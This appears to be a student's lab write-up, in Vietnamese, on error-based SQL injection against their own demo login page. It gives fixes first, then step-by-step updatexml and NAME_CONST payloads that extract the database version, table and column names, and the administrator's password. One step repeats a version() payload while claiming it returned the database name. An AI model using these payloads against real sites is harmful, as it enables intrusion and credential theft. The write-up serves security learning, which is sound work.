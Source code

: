 # Link demo : https://github.com/l3mnt2010/task2_KCSC/tree/main/demo/errorBase
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

Khi em vào giao diện sẽ như thế này


![Alt text](./imagesBooleanBase/image-20.png)

- Đây là đoạn code dính lỗi sqli:

![Alt text](./imagesErrorBase/image-21.png)

- Em thử dùng lỗi error base để kiểm tra version của data base: em sử dụng payload : 
            username=aaa&password=hih'+OR+(SELECT+*+FROM+(SELECT+NAME_CONST(version(),1),NAME_CONST(version(),1))+as+x)--+-&login=

+ Em nhận được kết quả trả ra là
![Alt text](./imagesErrorBase/image-1.png)

- Một cách khác nữa là em dùng payload :
            username=aaa&password=hih'and+updatexml(null,concat(0x0a,version()),null)--+-&login

+ Em nhận được kết quả trả ra là :
![Alt text](./imagesErrorBase/image-2.png)

Và version của database là : 10.4.32-MariaDB

- Em tiếp tục sử dụng payload: username=aaa&password=hih'and+updatexml(null,concat(0x0a,version()),null)--+-&login=
![Alt text](./imagesErrorBase/image-3.png)
+ Em nhận được tên database là task2_kcsc:


- Em có thể thấy được là kết quả trả ra lỗi của database task2_kcsc bảng users khi em dùng payload:
        'admi'+and+updatexml(null,concat(0x0a, 
        (select+table_name+from+information_schema.tables+where+table_schema%3ddatabase()+LIMIT+1,1)),null)--

![Alt text](./imagesErrorBase/image-4.png)
- Nếu LIMIT 0,1 thì em có thêm thông tin tên bảng là products nữa ạ:
![Alt text](./imagesErrorBase/image-5.png)
- Mục đích chính của em là tìm mật khẩu của quản trị viên nên em tiếp tục tìm các cột khác trong bảng users
Payload : 'admi'+and+updatexml(null,concat(0x0a,(select+column_name+from+information_schema.columns+where+table_name='users'+limit+0,1)),null)--

Với LIMIT 0,1 em nhận được cột
'admi'+and+updatexml(null,concat(0x0a,(select+column_name+from+information_schema.columns+where+table_name='users'+limit+0,1)),null)--

Cột này chưa phải thông tin em cần
![Alt text](./imagesErrorBase/image-6.png)
em tiêp tục tăng giá trị lên 1 2 3 4 5 và lần lượt nhận tên các cột

+TOTAL CONNECTION
![Alt text](./imagesErrorBase/image-7.png)
+ USER
![Alt text](./imagesErrorBase/image-8.png)
+ id
![Alt text](image-9.png)
đây là tên id của người dùng 
+ password
![Alt text](./imagesErrorBase/image-10.png)
+ username
![Alt text](./imagesErrorBase/image-11.png)

- Sau đó em dùng payload: 'admi'+and+updatexml(null,concat(0x0a,(select+username+from+users+limit+0,1)),null)--
    
nhận được tên admin là administrator
![Alt text](image-12.png)
- cuối cùng em sẽ lấy mật khẩu administrator
Payload : 'admi'+and+updatexml(null,concat(0x0a,(select+password+from+users+where+username='administrator'+limit+0,1)),null)--
Và kết quả :
![Alt text](image-13.png)

-> Vậy là em đã nhận được mật khẩu là hihi123


